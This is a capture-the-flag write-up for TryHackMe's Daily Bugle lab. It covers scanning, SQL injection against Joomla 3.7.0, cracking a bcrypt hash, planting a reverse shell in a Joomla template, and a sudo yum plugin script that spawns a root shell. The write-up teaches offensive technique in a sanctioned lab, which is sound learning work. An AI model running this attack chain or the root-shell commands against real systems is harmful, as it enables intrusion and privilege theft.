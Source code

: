 ```yaml
---
title: "TryHackMe - Daily Bugle"
author: Nasrallah
description: ""
date: 2023-06-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, hard, sqli, sudo, joomla]
img_path: /assets/img/tryhackme/dailybugle
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Daily Bugle](https://tryhackme.com/room/dailybugle) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.152.170
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
|_  256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

```

We found ssh on port 22, an Apache web server on port 80 with a robots.txt file that reveals multiple directories and the CMS used is Joomla.

### Web

Let's navigate to the web page.

![](1.png)

Since we know this is Joomla, let's run [joomscan](https://github.com/OWASP/joomscan).

![](2.png)

The version we found is `3.7.0`, let's see if it has any vulnerabilities.

```bash
$ searchsploit joomla 3.7                           
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                                                                                 | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                  | php/webapps/42033.txt
```

It's vulnerable to sql injection.

I used this [exploit](https://github.com/teranpeterson/Joomblah) that worked very well.

![](3.png)

We got a username and a hash.

Let's use `hashcat` to crack the hash.

```bash
$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt                                                                                          1 ⨯
hashcat (v6.1.1) starting.

$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:<REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p...BtZutm
Time.Started.....: Tue Jun 20 12:02:35 2023 (21 mins, 37 secs)
Time.Estimated...: Tue Jun 20 12:24:12 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       36 H/s (3.13ms) @ Accel:8 Loops:4 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 46848/14344385 (0.33%)
Rejected.........: 0/46848 (0.00%)
Restore.Point....: 46816/14344385 (0.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidates.#1....: talisay -> smokers

```

Great! We got the password, now let' login.

![](4.png)

## **Foothold**

To get a shell, we go to Templates and select `protostar`.

![](5.png)

Now we choose a php file `error.php` for example and replace to php code with a [reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php).

![](6.png)

Now we setup a listener and request the file at `http://targetIP/templates/protostar/error.php`

![](7.png)

We got a shell!


## **Privilege Escalation**

Let's run `linpeas`

![](8.png)

We found a password.

Let's switch to the only user on the machine.

![](9.png)

Great! Now let's check our privileges.

```bash
[jjameson@dailybugle home]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```

We can run `yum` as root.

Searching for ways to exploit that on GTFOBins we find a way to spawn interactive root shell by loading a custom plugin using the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

![](10.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
